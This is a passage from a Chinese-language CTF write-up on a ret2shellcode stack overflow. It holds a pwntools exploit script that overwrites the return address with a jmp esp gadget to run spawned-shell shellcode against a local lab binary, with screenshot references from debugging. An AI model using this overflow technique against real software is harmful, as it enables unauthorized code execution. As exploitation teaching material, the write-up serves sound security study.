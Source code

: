 当执行到ret时, 就会跳转到jmp esp指令处去执行, 同时当前esp会指向shellcode处, 这样执行jmp后就会控制EIP到shellcode执行

#### Exploit

```python
from pwn import*
context(os="linux", arch="i386")
o = process('./ret2shellcode')


jmp_esp = 0x804843C
shellc = asm(shellcraft.sh())
payload = 'a'*28 + p32(jmp_esp) + shellc
o.sendline(payload)
o.interactive()
```

将断点设置在run函数的ret处

![image-20220317191448307](Self-help_Clown.assets/image-20220317191448307.png)

可以看到jmp esp跳转的地方就是shellcode注入的地方, 执行完shellcode即可拿到shell

![image-20220317191459354](Self-help_Clown.assets/image-20220317191459354.png)
